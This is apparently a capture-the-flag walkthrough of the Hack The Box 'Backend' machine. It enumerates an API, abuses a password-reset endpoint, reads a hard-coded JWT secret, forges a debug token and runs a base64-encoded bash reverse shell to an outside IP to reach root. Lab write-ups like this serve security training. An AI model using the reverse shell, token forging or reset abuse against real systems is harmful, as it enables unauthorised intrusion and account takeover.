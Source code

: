 IP: 10.10.11.161
# Enumeration
## Nmap
```bash
sudo nmap -sC -sV -oA nmap/backend 10.10.11.161

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    uvicorn
```

## Port 80
```json
{"msg":"UHC API Version 1.0"}
```

### Gobuster
/api endpoint.

which has a /v1 entry

Two more entries, admin and user.
## Admin
Just says not authenticated.

## User
providing /user/1
```json
{
  "guid": "36c2e94a-4271-4259-93bf-c96ad5948284",
  "email": "admin@htb.local",
  "date": null,
  "time_created": 1649533388111,
  "is_superuser": true,
  "id": 1
}

```

fuzzing the endpoint.
```bash
wfuzz -X POST -w /opt/SecLists/Discovery/Web-Content/common.txt -u http://10.10.11.161/api/v1/user/FUZZ --hc 404,405
```

Gives both login and signup

# Creating an account

## Signup
```
POST /api/v1/user/signup HTTP/1.1
Host: 10.10.11.161
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 58

{
	"email":"a@a.com",
	"password":"abc123"
}

```

Creates a valid user. (201)

## Login
Signing in
```
POST /api/v1/user/login HTTP/1.1
Host: 10.10.11.161
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 32
Content-Type: application/x-www-form-urlencoded

username=a@a.com&password=abc123
```

returns a JWT.
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjc4NDc1MzE1LCJpYXQiOjE2Nzc3ODQxMTUsInN1YiI6IjIiLCJpc19zdXBlcnVzZXIiOmZhbHNlLCJndWlkIjoiOTdjMDdmNGMtZDAwNC00ZTRhLThkMTEtNjQwM2IyMmNkNjVmIn0.0M50YoCjIdjq3-Ukswg9_-FXWUe2j2LlRtyb9VIw4BA
```

# Logging in
Going to /docs and adding the jwt to the request. Also need to add it to the json request.

Once in the docs there is a PUT command for Get flag. Running this gives user.txt
```
curl -X 'PUT' \ 'http://10.10.11.161/api/v1/user/SecretFlagEndpoint' \ -H 'accept: application/json' | jq .

ddad201da5bc65442904f166163c91f0
```

# Priv esc
We can change a users password by grabbing the guid.
```bash
curl -X 'GET' 'http://10.10.11.161/api/v1/user/1' -H 'accept: application/json'|jq .
```

```
36c2e94a-4271-4259-93bf-c96ad5948284
```

Then to change the password.
```bash
curl -X 'POST'  'http://10.10.11.161/api/v1/user/updatepass'  -H 'accept: application/json'  -H 'Content-Type: application/json'  -d '{ "guid": "36c2e94a-4271-4259-93bf-c96ad5948284", "password": "abc123" }'
```

Check with the admin checker.

We can now read files. Still need to get debug value in the JWT so we can run commands.

Get the environ variables.
  ```json
  "file": "APP_MODULE=app.main:app\u0000PWD=/home/htb/uhc\u0000LOGNAME=htb\u0000PORT=80\u0000HOME=/home/htb\u0000LANG=C.UTF-8\u0000VIRTUAL_ENV=/home/htb/uhc/.venv\u0000INVOCATION_ID=61040a9e8558464aa01a78971acb9a08\u0000HOST=0.0.0.0\u0000USER=htb\u0000SHLVL=0\u0000PS1=(.venv) \u0000JOURNAL_STREAM=9:18422\u0000PATH=/home/htb/uhc/.venv/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\u0000OLDPWD=/\u0000"
```

backend is at `/home/htb/uhc/app/main.py`

Downloading the file there is an import from a config file at `app/core/config.py` which includes a JWT secret of 
```json
SuperSecretSigningKey-HTB
```

Signing a forged JWT with the debug value we can now use the exec endpoint.

JWT:
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjc4NjQ4NTA3LCJpYXQiOjE2Nzc5NTczMDcsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImRlYnVnIjp0cnVlLCJndWlkIjoiMzZjMmU5NGEtNDI3MS00MjU5LTkzYmYtYzk2YWQ1OTQ4Mjg0In0.C2jUk8xmHo6whSRjqtQPNzRSEix-u5YwfLJNPiEnU0U
```

b64 encode a payload then url encode it and get a shell.
```
echo ' bash -i >& /dev/tcp/10.10.14.34/9001 0>&1' | base64 -w 0
```

Then add to request.
```
echo 'IGJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMzQvOTAwMSAwPiYxCg==' |base64 -d|bash
```

Then encode all chars and send the req.

# Foothold
On the box there is a auth.log file which has the admin's password. `Tr0ub4dor&3`

Using su and cat root.txt
```
5fba4ff2992711327c73b7878a87f88e
```

